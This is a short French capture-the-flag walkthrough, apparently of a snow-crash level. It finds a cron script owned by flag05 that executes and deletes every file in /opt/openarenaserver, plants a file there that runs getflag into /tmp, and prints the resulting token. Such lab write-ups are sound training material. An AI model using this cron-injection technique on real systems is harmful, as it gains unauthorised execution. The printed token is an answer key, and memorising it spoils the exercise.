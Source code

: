 rien dans le home on cherche des trucs sur -user flag05 : 
```shell
find / -user flag05 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```shell
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Ca ressemble a un programe lancer par CRON.

on peut faire l'essais suivant:
```shell
touch /opt/openarenaserver/essais
chmod 755 /opt/openarenaserver/essais
```
au bout de 2 mn le fichier a disparu...

On va creer un fichier run qui execute getflag et renvoi le token dans un repertoire. le seul ou l'on peut écrire est /tmp

```shell
echo 'getflag > /tmp/token' > /opt/openarenaserver/run
chmod 755 /opt/openarenaserver/run
```
apres 2 minutes notre run a ecrit dans /tmp: 
```shell
cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
Check flag.Here is your token : viuaaale9huek52boumoomioc